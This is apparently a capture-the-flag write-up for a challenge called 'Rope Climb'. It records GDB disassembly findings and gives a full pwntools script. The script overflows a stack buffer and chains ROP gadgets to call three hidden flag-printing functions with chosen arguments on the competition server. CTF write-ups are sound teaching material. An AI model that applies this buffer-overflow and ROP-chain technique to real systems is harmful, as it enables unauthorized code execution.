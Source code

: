 # Rope Climb

Observations from GDB `disas`:

1. `main()` calls `vuln()`, which simply reads input from stdin
2. There are functions `camp1()`, `camp2()`, `summit()` which are not being called in natural flow of the program. All three of these functions execute `fread` and then print the contents, possibly 3 parts of the flag. We need to construct a ROP chain.
3. `disas` each function to know:
    - vuln - input starts at **rbp-0x30**
    - camp1 - takes no args
    - camp2 - arg1: must be 0x67
    - summit - arg1: must be 0x63, arg2: must be 0x7466
4. `ROPgadget --binary ./chal` -> addresses of required gadgets

> It's always better add a RET gadget before every function call to be safe from any stack alignment issues

```python
from pwn import *

p = remote('climb.2024-bq.ctfcompetition.com',1337)
p.recvuntil(b'(Maybe some rope would help?)\n')

offset = 0x38
camp1 = 0x00000000004011d7
camp2 = 0x0000000000401253
summit = 0x00000000004012f3
pop_rdi_ret = 0x000000000040118a
pop_rsi_ret = 0x000000000040118c
ret = 0x0000000000401016

payload = offset*b'a'
payload += p64(ret) # Stack alignment
payload += p64(camp1)
payload += p64(pop_rdi_ret) + p64(0x67)
payload += p64(ret) # Stack alignment
payload += p64(camp2)
payload += p64(pop_rdi_ret) + p64(0x63)
payload += p64(pop_rsi_ret) + p64(0x7466)
payload += p64(ret) # Stack alignment
payload += p64(summit)

p.sendline(payload)
p.interactive()
```
